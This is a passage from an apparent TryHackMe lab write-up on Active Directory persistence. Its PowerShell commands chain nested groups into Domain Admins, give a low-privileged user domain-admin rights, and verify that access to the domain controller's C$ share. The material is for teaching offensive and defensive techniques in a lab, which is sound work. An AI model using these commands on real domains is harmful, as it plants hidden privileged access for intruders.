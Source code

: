 We can do this a couple more times, every time adding the previous group as a member:

**Victim(powershell) - THMDC**

```
New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"

New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"

New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"

```

With the last group, let's now add that group to the Domain Admins group:

**Victim(powershell) - THMDC**

```
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Lastly, let's add our low-privileged AD user to the first group we created:

**Victim(powershell) - THMDC**

```
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

Instantly, your low-privileged user should now have privileged access to THMDC. Let's verify this by using our SSH terminal on THMWRK1:

**Victim(powershell) - THMWRK1**

```
dir \\thmdc.za.tryhackme.loc\c$\ 
```
